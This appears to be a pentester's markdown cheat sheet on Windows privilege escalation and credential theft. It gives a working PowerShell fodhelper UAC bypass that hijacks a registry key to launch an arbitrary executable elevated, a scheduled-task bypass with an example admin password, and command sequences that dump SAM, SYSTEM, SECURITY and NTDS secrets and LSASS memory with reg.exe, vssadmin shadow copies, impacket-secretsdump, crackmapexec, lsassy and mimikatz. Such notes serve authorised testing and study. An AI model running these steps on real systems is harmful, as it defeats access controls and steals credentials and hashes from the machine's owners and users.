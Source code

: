 - more in https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
- windows specific tool: https://github.com/bitsadmin/wesng

- from admin to nt authority/system
    - ?schtasks
    - psexec
    - change binary (or do dll hijacking) of a windows utility (sethc, osk)
##### UAC
- Administrative users have two access tokens, a standard user token (filtered admin token) and a administrator token (that triggers the UAC to be used).
- What happen when administration tasks are performed remotely?
    - Either they are requested by an domain account that is member of the "Administrators" group of the host, in which case the UAC is not activated for this account, and the administration tasks are already allowed.
    - Or they are requested by a local account that is member of the host's "Administrators" group, in which case by default the UAC is required for all except the built-in administrator account (RID 500) (check LocalAccountTokenFilterPolicy, FilterAdministratorToken)
        - Even so, it can be possible to find a bypass for uac, as shown below:
1) bypassing uac via foldhelper
```powershell
# for windows 10/11
reg add "HKCU\SOFTWARE\Classes\ms-settings\shell\open\command" 
$arg = "C:\Users\box\Desktop\wintest.exe" # apparently do not work with .ps1
$registryPath = "HKCU:\SOFTWARE\Classes\ms-settings\shell\open\command"
Set-ItemProperty -Path $registryPath -Name "(Default)" -Value "$arg"
Set-ItemProperty -Path $registryPath -Name "DelegateExecute" -Value ""
Start-Process -FilePath "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
Start-Sleep 2
Remove-Item -Path "HKCU:\SOFTWARE\Classes\ms-settings" -Recurse -Force
```
2) bypassing uac via schtasks with password
- it is needed to know the password of an administrative account to create a task using it:
    * schtasks ... /ru adminjohn /rp john123


### windows - dumping creds, hashes, tickets
- **from lsa secrets, sam, ntds**    
    - `impacket-secretsdump corp/user@target -hashes :NTHASH`
    - crackmapexec
        * --lsa  # uses impacket-secretsdump
        * --sam  # dumps nt hashes from sam
        * --ntds # dumps nt hashes from ntds
    - manually
        * %SystemRoot%/ntds/ntds.dit
        * %SystemRoot%/system32/config/sam
        * %SystemRoot%/system32/config/system
        * %SystemRoot%/system32/config/security
        - 1) getting sam, system, security (for lsa secrets)
            - A) with reg.exe
                - `reg.exe save hklm\sam c:\sam.save`
                - `reg.exe save hklm\system c:\system.save`
                - `reg.exe save hklm\security c:\security.save`
            - B) using volume shadow
                - create: `vssadmin create shadow /for=C:`
                - listing: `vssadmin list shadows`
                - get file: `copy $ShadowCopyName\file DEST`
                - remove: `vssadmin delete shadows /shadow=$ShadowCopyId`
        - 2) extracting hashes/creds: `impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL`
- **from LSASS process memory**
    - `lsassy -u $USER -H $HASH $NETWORK`
    - mimikatz -> an exploit and a tool for extract credentials/hashes/tickets from windows machines, it needed to be executed with admin privileges